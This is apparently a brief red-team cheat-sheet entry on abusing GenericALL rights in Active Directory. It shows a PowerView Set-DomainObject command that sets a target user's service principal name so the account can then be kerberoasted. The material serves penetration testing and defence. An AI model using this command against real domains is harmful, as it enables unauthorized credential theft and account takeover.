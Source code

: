 # GenericALL

## Abuse

### Kerberoastin - Set SPN

If we have sufficient right, a target user's SPN can be set to anything in the domain (unique in the domain) and then kerberoasted

To set the SPN to the user using powerview:

```
Set-DomainObject -Identity <$Target user> -Set @{serviceprincipalname='<$Domain/myspn>'}
```

now you can kerberoast it.
